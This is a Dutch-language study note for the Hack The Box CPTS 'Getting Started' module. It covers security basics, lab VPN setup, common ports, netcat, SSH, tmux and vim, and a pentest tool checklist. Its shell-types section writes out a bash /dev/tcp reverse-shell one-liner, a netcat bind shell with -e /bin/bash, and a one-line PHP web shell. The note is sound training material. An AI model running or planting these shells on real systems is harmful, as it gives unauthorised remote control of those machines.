

# Getting Started - HTB CPTS

> **Module**: Penetration Tester Path - Module 01  
> **Status**: In Progress  
> **Datum**: 2026-01-13

---

## 📋 Inhoudsopgave

- [[#Kernconcepten]]
- [[#Organisatie & Methodiek]]
- [[#Netwerk Basis]]
- [[#Tools]]
- [[#Shell Types]]
- [[#Security Concepts]]

---

## 🎯 Kernconcepten

### CIA Triade

Het fundament van alle beveiliging. Bij elke kwetsbaarheid vraag je: **welk deel wordt aangevallen?**

|Concept|Betekenis|Voorbeeld|
|---|---|---|
|**Confidentiality**|Vertrouwelijkheid - gegevens geheim houden|Hacker leest wachtwoorden|
|**Integrity**|Integriteit - gegevens juist houden|Hacker past bedrag aan in database|
|**Availability**|Beschikbaarheid - gegevens toegankelijk houden|Server platgelegd door DDoS|

### Risicomanagement

Als Pentester bepaal je niet alleen **wat** kwetsbaar is, maar ook **hoe erg**:

- **Impact**: Hoeveel schade richt het aan?
- **Probability**: Hoe groot is de kans dat iemand dit vindt?

### Red Team vs Blue Team



- **Red Team**: De aanvallers - proberen binnen te dringen
- **Blue Team**: De verdedigers - bouwen muren en reageren
- **Penetration Tester**: Gestructureerd zoeken naar kwetsbaarheden

---

## 📂 Organisatie & Methodiek

### Folder Structuur

```bash
mkdir -p HTB_Academy/{01_Getting_Started,02_Network_Enumeration}/{scans,evidence/{credentials,screenshots},logs,scope,tools}
```

**Aanbevolen structuur:**

```
HTB_Academy/
├── 01_Getting_Started/
│   ├── notes.md
│   ├── scans/
│   ├── evidence/
│   │   ├── credentials/
│   │   └── screenshots/
│   ├── logs/
│   └── tools/
├── 02_Network_Enumeration/
└── Vulnerabilities_DB/
```

### Vulnerabilities Database

Voor elke gevonden kwetsbaarheid documenteer je:

- **Titel**: Naam van de kwetsbaarheid
- **Impact**: Low/Medium/High/Critical
- **Beschrijving**: Wat is het probleem?
- **Remediation**: Hoe los je het op?
- **Evidence**: Screenshots en logs

> [!warning] Belangrijke Regel Een ongeorganiseerde pentester faalt sneller. Documenteer **direct** tijdens je werk!

---

## 🌐 Netwerk Basis & VPN

### VPN Verbinding

```bash
# Verbinding maken
sudo openvpn user.ovpn

# Status checken
ifconfig tun0

# Routes bekijken
netstat -rn
```

**Succesvolle verbinding**: Laatste regel toont `"Initialization Sequence Completed"`  
**IP-adres**: Meestal `10.10.x.x`

### Veiligheidsregels

> [!danger] Beschouw het lab altijd als VIJANDIG

- ✅ Gebruik **altijd** een VM
- ❌ **Geen** gevoelige data op je HTB VM
- ✅ SSH wachtwoord-authenticatie **uitschakelen**
- ✅ Nieuwe VM per klant (later in je werk)

### Common Ports (De Gouden Lijst)

|Port|Service|Gebruik|Check voor|
|---|---|---|---|
|**21**|FTP|Bestandsoverdracht|Anonymous login|
|**22**|SSH|Veilige shell-toegang|Weak credentials|
|**80/443**|HTTP/HTTPS|Webservers|OWASP Top 10|
|**445**|SMB|Windows bestandsdeling|Shares, credentials|
|**3389**|RDP|Remote Desktop|Brute force|

---

## 🛠️ Tools

### Netcat (nc) - Het Zwitserse Zakmes

```bash
# Banner Grabbing (versie van service ontdekken)
nc -v [IP] [PORT]

# Luisteren naar Reverse Shell
nc -lvnp [PORT]

# Bestand versturen
nc -lvnp 1234 > received_file
# Van andere kant:
nc [IP] 1234 < file_to_send
```

### SSH - Stabiele Toegang

```bash
# Inloggen met wachtwoord
ssh username@IP

# Inloggen met private key
ssh -i id_rsa username@IP

# Port forwarding
ssh -L local_port:remote_host:remote_port username@IP
```

### Tmux - Terminal Management

|Shortcut|Actie|
|---|---|
|`Ctrl+B` dan `%`|Verticaal splitsen|
|`Ctrl+B` dan `"`|Horizontaal splitsen|
|`Ctrl+B` dan `c`|Nieuw venster|
|`Ctrl+B` dan `o`|Wisselen tussen panes|
|`Ctrl+B` dan `x`|Pane sluiten|
|`Ctrl+B` dan `d`|Detach sessie|

```bash
# Nieuwe sessie starten
tmux new -s htb

# Terug naar sessie
tmux attach -t htb

# Sessies lijst
tmux ls
```

### Vim - Essential Commands

**Modes:**

- `i` → Insert mode
- `ESC` → Normal mode
- `:` → Command mode

**Bewegen:**

- `h j k l` → Links, Beneden, Boven, Rechts
- `w` → Volgend woord
- `0` → Begin regel
- `$` → Eind regel
- `gg` → Begin bestand
- `G` → Eind bestand

**Bewerken:**

- `yy` → Regel kopiëren
- `dd` → Regel knippen
- `p` → Plakken
- `u` → Undo
- `Ctrl+r` → Redo

**Afsluiten:**

- `:wq` → Opslaan en afsluiten
- `:q!` → Afsluiten zonder opslaan
- `:w` → Alleen opslaan

---

## 🐚 Shell Types

### Reverse Shell

**Meest gebruikt** - Doelwit verbindt naar JOU

```bash
# Listener op jouw machine
nc -lvnp 4444

# Op doelwit (bash)
bash -i >& /dev/tcp/[YOUR_IP]/4444 0>&1
```

### Bind Shell

Doelwit opent poort, JIJ verbindt daarheen

```bash
# Op doelwit
nc -lvnp 4444 -e /bin/bash

# Op jouw machine
nc [TARGET_IP] 4444
```

### Web Shell

Commando's via script in browser

```php
<?php system($_GET['cmd']); ?>
# Gebruik: http://target.com/shell.php?cmd=whoami
```

---

## 🔒 Security Concepts

### OWASP Top 10

De lijst met de 10 gevaarlijkste web-kwetsbaarheden:

1. **Broken Access Control**
2. **Cryptographic Failures**
3. **Injection** (SQL, Command, etc.)
4. **Insecure Design**
5. **Security Misconfiguration**
6. **Vulnerable and Outdated Components**
7. **Identification and Authentication Failures**
8. **Software and Data Integrity Failures**
9. **Security Logging and Monitoring Failures**
10. **Server-Side Request Forgery (SSRF)**

---

## 🖥️ Omgevingen

### Pwnbox vs Lokale VM

|Aspect|Pwnbox|Lokale VM|
|---|---|---|
|**Setup**|Direct in browser|Installatie nodig|
|**Tools**|Pre-installed|Zelf configureren|
|**Persistentie**|Beperkt|Volledig|
|**Aanbevolen voor**|Quick start|CPTS traject|

### Parrot OS vs Kali Linux

**Parrot OS** (HTB standaard):

- ✅ Lichter (draait soepeler)
- ✅ Overzichtelijke interface
- ✅ Alle CPTS tools pre-installed

**Kali Linux**:

- Bekendste pentesting distro
- Grote community
- Meer tools out-of-the-box

---

## 📚 Recommended Tools Checklist

### Recon & Enumeration

- [ ] `nmap`
- [ ] `gobuster` / `ffuf`
- [ ] `nikto`
- [ ] `enum4linux`

### Exploitation

- [ ] `metasploit-framework`
- [ ] `searchsploit`
- [ ] `sqlmap`

### Networking

- [ ] `netcat` (nc)
- [ ] `socat`
- [ ] `wireshark`

### Windows/AD

- [ ] `impacket-scripts`
- [ ] `evil-winrm`
- [ ] `crackmapexec` / `nxc`
- [ ] `bloodhound`

---

## 💡 Best Practices

> [!tip] Screenshot Everything Maak screenshots van:
> 
> - Flags gevonden
> - Succesvolle exploits
> - Interessante configuraties
> 
> Gebruik `Ctrl+V` in Obsidian om direct te plakken!

> [!note] Cheat Sheet Opbouwen Maak een centrale `[[Pentest_Cheat_Sheet]]` pagina. Elke keer als je een handig commando tegenkomt, voeg je die toe.

> [!warning] Knowledge Cutoff Claude's cutoff: Januari 2025  
> Voor actuele info: gebruik web search!

---

## 🔗 Links & Resources

- [[Nmap|Nmap Cheat Sheet]]
- [[Vim|Vim Commands]]
- [[Netcat|Netcat Usage]]
- [[Pentest_Cheat_Sheet|Master Cheat Sheet]]
- [[Vulnerabilities_DB|Vulnerability Database]]

---

## 📝 Notities & Observaties

### Nibbles Walkthrough

_Machine template voor first box - komt nog_

### Persoonlijke Aantekeningen

- Gebruik `tun0` adapter voor HTB labs
- VPN file downloaden van Academy portal
- Pwnbox heeft onbeperkte tijd met Student Plan

---

## ✅ Module Checklist

- [ ] VPN verbinding opgezet
- [ ] Folder structuur aangemaakt
- [ ] Essential tools geïnstalleerd
- [ ] Tmux configuratie ingesteld
- [ ] Vim basics geoefend
- [ ] Eerste banner grabbing gedaan
- [ ] Screenshot workflow getest
- [ ] Nibbles box gestart

---

_Last updated: [[2026-01-13]]_